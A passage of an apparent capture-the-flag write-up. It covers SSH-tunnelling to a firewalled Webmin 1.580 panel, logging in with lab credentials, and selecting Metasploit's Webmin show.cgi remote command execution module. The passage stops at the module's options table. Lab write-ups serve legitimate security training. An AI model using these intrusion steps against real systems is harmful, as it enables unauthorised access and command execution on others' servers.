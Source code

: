 **How many TCP sockets are running?**

5

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run `ssh -L 10000:localhost:10000 <username>@<ip>`

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

![image](https://user-images.githubusercontent.com/43668197/140375356-0b1eb946-825c-44d4-9b34-4baea16bbf3b.png)

**What is the name of the exposed CMS?**

webmin

Trying out the only set of credentials we have right now agent47:videogamer124 gets us in.

![image](https://user-images.githubusercontent.com/43668197/140375737-c5973fc3-5fce-4e71-afc4-44bf50efd6dd.png)

**What is the CMS version?**

1.580

## Privilege Escalation with Metasploit

```
msf6 > search webmin 1.58

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   
msf6 > use 0

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host
```
